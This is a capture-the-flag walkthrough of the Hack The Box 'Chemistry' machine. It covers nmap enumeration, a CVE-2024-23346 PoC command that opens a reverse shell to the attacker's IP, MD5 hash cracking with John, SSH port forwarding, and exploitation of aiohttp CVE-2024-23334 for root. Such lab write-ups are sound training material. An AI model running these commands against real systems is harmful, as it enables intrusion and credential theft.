

# Chemistry HTB Walkthrough

---

## Enumeration

```bash
nmap -p- -Pn 10.129.231.170 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.231.170 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.231.170 -v --script vuln -oN nmap_vuln.txt
```


---

## Web Enumeration

On **port 5000**, we see a frontend:


After registering, we see this upload screen that allows `.cif` file uploads.


---

## Exploiting CVE-2024-23346

A quick search revealed **CVE-2024-23346** affecting the application.


We used the following PoC exploit:  
🔗 [https://github.com/Sanity-Archive/CVE-2024-23346](https://github.com/Sanity-Archive/CVE-2024-23346)

```bash
python3 CVE-2024-23346.py -t http://10.129.231.170:5000 -u test -p test -l 10.10.15.30
```


After execution, we gained a reverse shell.

---

## Post-Exploitation

Exploring the `/instance` folder revealed **credentials** — usernames with **password hashes**.



We noticed the user **rosa**, so we attempted to crack her hash.


The registered hash format was **MD5**, so we cracked it using John:

```bash
john --format=raw-md5 --wordlist=rockyou.txt hash.txt
```


---

## SSH Access as Rosa

Using the cracked credentials, we logged in:

```bash
ssh rosa@10.129.231.170
```


User flag was found on Rosa’s desktop.

---

## Internal Enumeration

Checking listening ports:

```bash
netstat -ntlpu
```


Found an internal service on **port 8080**.

We performed SSH port forwarding:

```bash
ssh -L 8080:localhost:8080 rosa@10.129.231.170
```

Accessing `http://localhost:8080` showed an internal **site monitoring tool**.


Curling the site showed it was using **aiohttp/3.9.1**.


---

## Exploiting CVE-2024-23334 (aiohttp)

Found vulnerability **CVE-2024-23334** for aiohttp.


Reference:  
🔗 [https://github.com/z3rObyte/CVE-2024-23334-PoC](https://github.com/z3rObyte/CVE-2024-23334-PoC)

Enumerated endpoints:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://localhost:8080/FUZZ -s
```


Modified exploit payload and executed:


```bash
chmod +x exploit.sh
./exploit.sh
```


---

## Root Flag

Successfully exploited the aiohttp vulnerability and retrieved **root flag**.

🎯 **Full System Compromise Achieved**

---
